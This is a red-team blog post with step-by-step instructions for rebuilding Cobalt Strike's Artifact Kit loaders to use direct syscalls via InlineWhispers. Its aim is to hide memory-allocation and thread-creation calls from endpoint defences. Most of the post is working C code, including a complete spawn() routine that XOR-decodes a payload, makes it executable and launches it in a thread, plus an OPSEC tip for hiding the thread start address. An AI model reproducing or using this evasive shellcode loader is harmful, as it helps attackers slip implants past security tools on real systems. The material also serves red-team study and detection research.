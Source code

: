 ```yaml
---
title: Integrating Direct Syscalls in Cobalt Strike's Artifact Kit
date: 2022-06-10 09:48:47 +07:00
categories: RedTeaming
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
#layout: post
description: Using InlineWhispers to implement Direct Syscalls in Cobalt Strike's Artifact Kit
---
```


<p align="center">
     <img src="https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/redteaming/cobaltsyscalls/syscalls.png">
</p>

## Resources/Credits

- [Using Direct Syscalls from Beacon Object Files and MinGW](https://outflank.nl/blog/2020/12/26/direct-syscalls-in-beacon-object-files/)
- [Implementing Syscalls in the Artifact Kit](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)
- [Using Direct Syscalls in Cobalt Strike's Artifact Kit - YT](https://www.youtube.com/watch?v=mZyMs2PP38w&t=21s&ab_channel=RaphaelMudge)
- [InlineWhispers](https://github.com/outflanknl/InlineWhispers)

## Methodology

Find function calls you would like to replace in a function module like `spawn`:
- peclone: `./peclone dump ~/artifact/dist-template/artifact64.exe`
- strings: `strings ~/artifact/dist-template/artifact64.exe | grep Virtual`

Add the required functions in `functions.txt` which uses `syscalls.asm` (generated by Syswhispers1) and generates `syscalls-asm.h` to incorporate functions specified: `python3 InlineWhispers.py`
- Copy over `syscalls-asm.h` and `Syscalls.h` to `src-common/`. 
- Replace `Windows.h` in `Syscalls.h` to `windows.h`
- To use the generated `inline-assembly` using the `mingw` compiler, we change the dialect of masm to the *intel syntax* (refer [bs's blog](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)).
	- Edit `build.sh` and the the dialect to the `$options` variable: `export options= -0s -masm=intel`
- Edit `patch.c` as an example template. Split `x64` and `x86` code as they require seperate versions of inline-whispers. Add the `syscalls-asm.h` header to include the functions.
	```c
	#elif _M_X64
	#include "syscalls-asm.h"
	void run(void * buffer) {
		......
	}

	void spawn(void * buffer, int length, char * key) {
		......
	}

	#else
	void run(void * buffer) {
		......
	}

	void spawn(void * buffer, int length, char * key) {
		......
	}
	#endif
	```

Setup requirements to replace the functions calls. (refer [bs's blog](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/))
- Start by grabbing the approprate function prototypes and incorporating it in the program.
	```c
	[.............]
	#elif _M_X64
	#include "syscalls-asm.h"

	EXTERN_C NTSTATUS NtAllocateVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN ULONG ZeroBits,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG AllocationType,
	        IN ULONG Protect);

	EXTERN_C NTSTATUS NtProtectVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG NewProtect,
	        OUT PULONG OldProtect);

	EXTERN_C NTSTATUS NtCreateThreadEx(
	        OUT PHANDLE ThreadHandle,
	        IN ACCESS_MASK DesiredAccess,
	        IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
	        IN HANDLE ProcessHandle,
	        IN PVOID StartRoutine,
	        IN PVOID Argument OPTIONAL,
	        IN ULONG CreateFlags,
	        IN SIZE_T ZeroBits,
	        IN SIZE_T StackSize,
	        IN SIZE_T MaximumStackSize,
	        IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL);

	void run(void * buffer) {
	        void (*function)();
	        function = (void (*)())buffer;
	        function();
	} [................]
	```
- Add variables as required/stated in the blog.
	```c
	void spawn(void * buffer, int length, char * key) {
	        DWORD old;

	        HANDLE hProc = GetCurrentProcess();
	        LPVOID base_addr = NULL;

	        [.........]
	```
- Replace `ptr` in the function module to the `base_address` variable defined above to stay in convention with the variables in the blog.

Replace the function calls to their NT equivalents similar to the blog.
- Replace `VirtualAlloc()` with: `NtAllocateVirtualMemory(hProc, &base_addr, 0, (PSIZE_T)&calc_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);`
	- Replace `calc_len to length`
- Replace `VirtualProtect()` with: `NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&calc_len, PAGE_EXECUTE_READ, &oldprotect);`
	- Replace `calc_len to length`
	- Replace `oldprotect` to `old`
- Replace `CreateThread` with `NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, base_addr, NULL, FALSE, 0, 0, 0, NULL);`
	- Declare the variable `HANDLE thandle = NULL` 
> **OPSEC**: `NtCreateThreadEx` starts the thread using `base_addr` which has a start address that is not backed by a module on disk.
	- Replace `NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, base_addr, NULL, FALSE, 0, 0, 0, NULL);` with `NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, run, base_addr, FALSE, 0, 0, 0, NULL);` to make the start address the `run` function and the `base_addr` is passed as an argument. 
- Sample: (Replace `injector.c` and `patch.c` similarly to implement direct syscalls in all artifacts)
	```c
	#elif _M_X64
	#include "syscalls-asm.h"

	EXTERN_C NTSTATUS NtAllocateVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN ULONG ZeroBits,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG AllocationType,
	        IN ULONG Protect);

	EXTERN_C NTSTATUS NtProtectVirtualMemory(
	        IN HANDLE ProcessHandle,
	        IN OUT PVOID * BaseAddress,
	        IN OUT PSIZE_T RegionSize,
	        IN ULONG NewProtect,
	        OUT PULONG OldProtect);

	EXTERN_C NTSTATUS NtCreateThreadEx(
	        OUT PHANDLE ThreadHandle,
	        IN ACCESS_MASK DesiredAccess,
	        IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL,
	        IN HANDLE ProcessHandle,
	        IN PVOID StartRoutine,
	        IN PVOID Argument OPTIONAL,
	        IN ULONG CreateFlags,
	        IN SIZE_T ZeroBits,
	        IN SIZE_T StackSize,
	        IN SIZE_T MaximumStackSize,
	        IN PPS_ATTRIBUTE_LIST AttributeList OPTIONAL);

	void run(void * buffer) {
	        void (*function)();
	        function = (void (*)())buffer;
	        function();
	}

	void spawn(void * buffer, int length, char * key) {
	        DWORD old;

	        HANDLE hProc = GetCurrentProcess();
	        LPVOID base_addr = NULL;
	        HANDLE thandle = NULL;

	        /* allocate the memory for our decoded payload */
	        /*base_addr = VirtualAlloc(0, length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);*/
	        NtAllocateVirtualMemory(hProc, &base_addr, 0, (PSIZE_T)&length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	        int x;
	        for (x = 0; x < length; x++) {
	                char temp = *((char *)buffer + x) ^ key[x % 4];
	                *((char *)base_addr + x) = temp;
	        }

	        /* propagate our key function pointers to our payload */
	        set_key_pointers(base_addr);

	        /* change permissions to allow payload to run */
	        /*VirtualProtect(base_addr, length, PAGE_EXECUTE_READ, &old);*/
	        NtProtectVirtualMemory(hProc, &base_addr, (PSIZE_T)&length, PAGE_EXECUTE_READ, &old);

	        /* spawn a thread with our data */
	        /*CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)&run, base_addr, 0, NULL);*/
	        NtCreateThreadEx(&thandle, GENERIC_EXECUTE, NULL, hProc, run, base_addr, FALSE, 0, 0, 0, NULL);
	}
	```

Validate the syscalls: `VirtualAlloc()`, `VirtualProtect()` and `CreateThread` shouldn't appear now.
- peclone: `./peclone dump ~/artifact/dist-template/artifact64.exe`
- strings: `strings ~/artifact/dist-template/artifact64.exe | grep Virtual`
> **NOTE**: `VirtualProtect` and `VirtualQuery` are called by C runtimes linked into the default mingw 64bit binaries hence these functions still appear in the import table.